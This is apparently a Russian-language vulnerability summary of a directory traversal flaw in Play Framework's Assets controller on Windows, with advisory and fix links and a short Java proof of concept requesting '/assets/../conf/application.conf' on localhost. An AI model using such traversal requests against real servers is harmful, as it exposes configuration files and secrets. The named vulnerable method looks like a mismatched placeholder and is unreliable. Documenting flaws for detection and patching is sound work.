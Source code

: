# Обзор #

## Описание уязвимости: ##
https://github.com/advisories/GHSA-v4mq-p756-p4f5

Уязвимость обхода каталога была обнаружена в контроллере Assets в Play Framework 2.6.12 — 2.6.15 (исправлена ​​в 2.6.16) при работе в Windows. Она позволяет удаленному злоумышленнику загружать произвольные файлы с целевого сервера с помощью специально созданных HTTP-запросов.

Когда приложение работает в Windows, можно получить доступ к файлам в classpath, хранящимся за пределами общедоступной папки, например к файлу conf/application.conf.

## Метод, приводящий к уязвимости ##

the.helper.Container.url.get

## Репозиторий проекта с уязвимостью: ##
https://github.com/playframework/playframework

## PoC: ##
~~~java
try {
    URL url = new URL("http://localhost:9000/assets/../conf/application.conf");
    HttpURLConnection connection = (HttpURLConnection) url.openConnection();
    connection.setRequestMethod("GET");
    int responseCode = connection.getResponseCode();
    if (responseCode == 200) {
        System.out.println("Vulnerability detected");
    }
    connection.disconnect();
} catch (Exception e) {
    e.printStackTrace();
}
~~~

## Commit, исправивший уязвимость ##
https://github.com/playframework/playframework/commit/88c2191e89e705f9929f277dc13df036bf65f4c9
